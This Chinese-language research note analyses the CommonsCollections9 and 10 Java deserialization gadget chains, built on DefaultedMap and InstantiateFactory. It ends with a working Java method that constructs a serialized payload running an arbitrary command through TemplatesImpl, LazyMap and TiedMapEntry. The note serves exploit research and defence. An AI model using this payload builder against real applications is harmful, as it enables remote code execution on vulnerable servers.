






# CommonsCollections9、10

## 0x01 DefaultedMap

在 CC1 中介绍了抽象类 `AbstractMapDecorator `提供一个基础装饰器，允许通过装饰器向 Map 添加附加功能，以下类对其进行了实现。


CC9 的话就是选择了 DefaultedMap 来实现，这条 gadget 与 CC5 类似比较简单，通过其 get() 方法触发 value 的 transform()，value通过构造方法构造就行





## 0x02 InstantiateFactory

在之前分析 LazyMap 时，我们通过 factory 来调用 transform ，factory 通过 `LazyMap.decorate()` 传入一个 Transformer 来赋值。



而 LazyMap 还提供了一个构造方法可以直接传递构造好的 Factory，接收 FactoryTransformer 类型的参数，如果可以突破这个类型的限制构造任意 factory 一样能达到我们的目的，最简单的方式是 LazyMap 构造一个正常的后直接反射去修改。



关于 Factory 接口在这些类中实现



CC10 这条 gadget 用 InstantiateFactory 替换了 InstantiateTransformer，InstantiateFactory 这个类用于通过反射创建新对象实例的工厂实现，那么这时候的实现思路就很简单了：

1. LazyMap.decorate() 创建一个对象，同样可以传入一个初始化的 `new ConstantTransformer(1)` 更改报错信息
2. 将之前的 TrAXFilter 和 TemplatesImpl 转化为 InstantiateFactory 构造，之后通过反射修改 LazyMap 的 factory 值

InstantiateFactory 的构造也比较简单，直接传 TrAXFilter 和 Templates 的类型与值就好了。



Kick-off 的话 hashmap、BadAttributeValueExpException 都随意，最终构造如下：

```java
public Object getObject(String command) throws Exception {
    Object templates = Gadgets.createTemplatesImpl(command);

    InstantiateFactory instantiateFactory = new InstantiateFactory(TrAXFilter.class, new Class[]{Templates.class}, new Object[]{templates});
    FactoryTransformer factoryTransformer = new FactoryTransformer(instantiateFactory);
    ConstantTransformer constantTransformer = new ConstantTransformer(1);

    Map innerMap = new HashMap();
    LazyMap outerMap = (LazyMap) LazyMap.decorate(innerMap, constantTransformer);
    TiedMapEntry entry = new TiedMapEntry(outerMap, "Whoopsunix");
    Map expMap = new HashMap();
    expMap.put(entry, "Whoopsunix");
    Reflections.setFieldValue(outerMap, "factory", factoryTransformer);
    outerMap.clear();

    return expMap;
    // BadAttributeValueExpException val = new BadAttributeValueExpException(null);
    // Reflections.setFieldValue(val, "val", entry);
    // Reflections.setFieldValue(outerMap, "factory", factoryTransformer);

    // return val;  
}
```
